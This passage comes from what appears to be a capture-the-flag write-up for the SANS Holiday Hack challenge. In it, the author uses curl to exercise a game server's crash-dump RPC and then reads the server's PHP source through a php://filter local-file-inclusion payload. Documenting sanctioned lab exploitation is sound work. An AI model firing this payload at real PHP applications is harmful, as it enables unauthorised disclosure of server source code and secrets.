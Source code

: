 ```java
				Log.e(TAG, "Error posting message to " + getString(R.string.exhandler_url) + " -- " + e.getMessage());
		}
}
```

With this knowledge, we can again use cURL and build us some JSON objects.

```
curl -X POST -H "Content-Type: application/json" http://ex.northpolewonderland.com/exception.php -d '{"operation":"WriteCrashDump","data":"abc"}'
{
	"success" : true,
	"folder" : "docs",
	"crashdump" : "crashdump-eyuCQk.php"
}
```

While playing around, I noticed that there is a second RPC supported.

```
curl -X POST -H "Content-Type: application/json" http://ex.northpolewonderland.com/exception.php -d '{}'
Fatal error! JSON key 'operation' must be set to WriteCrashDump or ReadCrashDump.
```

We can use the `ReadCrashDump` call to read our previously created dump.

```
curl -X POST -H "Content-Type: application/json" http://ex.northpolewonderland.com/exception.php -d '{"operation":"ReadCrashDump","data":{"crashdump":"crashdump-eyuCQk"}}'
"abc"%
```

Then I was pretty much stuck. I had to read up on a write-up to get the hint for a [blog post](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) which was mentioned previously in the game.

With this knowledge about the `php://` wrapper, I was able to read the source code of the exception class.

```
curl -X POST -H "Content-Type: application/json" http://ex.northpolewonderland.com/exception.php -d '{"operation":"ReadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=exception"}}'
```

Right at the top of the file, we find the hint to the next `mp3` file.

```php
<?php

// Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3
```

Let's get it.

```
wget http://ex.northpolewonderland.com/discombobulated-audio-6-XyzE3N9YqKNH.mp3
mv discombobulated-audio-6-XyzE3N9YqKNH.mp3 discombobulated6.mp3
```
